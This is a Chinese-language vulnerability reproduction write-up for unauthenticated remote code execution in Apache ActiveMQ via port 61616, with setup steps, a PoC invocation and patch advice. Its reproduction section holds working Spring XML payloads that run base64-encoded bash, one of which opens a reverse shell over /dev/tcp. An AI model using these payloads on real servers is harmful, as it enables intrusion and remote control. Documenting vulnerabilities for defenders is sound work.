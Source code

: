 # 

# Apache ActiveMQ远程代码执行

## 漏洞描述

Apache ActiveMQ 是 Apache 软件基金会研发的一个开源消息中间件，为应用程序提供高效的、可扩展的、稳定的和安全的企业级消息通信。

当未经身份认证的攻击者访问 Apache ActiveMQ 的 61616 端口时，可通过发送恶意数据在远程服务器上执行代码，进而控制 Apache ActiveMQ 服务器。

更新日期：2023-10-25

参考链接：

- https://activemq.apache.org/activemq-5016006-release
- https://github.com/Fw-fW-fw/activemq_Throwable

## 漏洞影响

```
Apache ActiveMQ  < 5.18.3
```

## 环境搭建

在 ActiveMQ 官方下载 5.16.6 版本安装包，链接：https://activemq.apache.org/activemq-5016006-release

解压安装包，在目录 ./apache-activemq-5.16.6/bin/linux-x86-64 下以控制台模式启动，方便排查报错信息，注意使用 jdk 11：

```
./activemq console
```

![image-20231027181920007](images/image-20231027181920007.png)

访问 8161 端口管理页面：

![image-20231030090050081](images/image-20231030090050081.png)

## 漏洞复现

编写 poc.xml，托管在 8080 端口。开启 http 服务：

```
python3 -m http.server 8080
```

![image-20231027181935525](images/image-20231027181935525.png)

执行命令：

```
touch /tmp/success
-------
base64编码：dG91Y2ggL3RtcC9zdWNjZXNz
```

poc.xml（注意缩进）：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,dG91Y2ggL3RtcC9zdWNjZXNz}|{base64,-d}|{bash,-i}</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

使用 [poc](https://github.com/Fw-fW-fw/activemq_Throwable) 进行复现：

```
java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8080/poc.xml
```

成功执行 `touch /tmp/success`：

![image-20231027181843920](images/image-20231027181843920.png)

反弹 shell 的 poc.xml：

```
<beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">  
  
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
		        <value>{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}</value>
                
            </list>
        </constructor-arg>
    </bean>
</beans>
```

![image-20231030083005877](images/image-20231030083005877.png)

## 修复建议

根据影响版本中的信息，排查并升级到安全版本，或直接访问参考链接获取官方更新指南。补丁下载链接：https://github.com/apache/activemq/tags

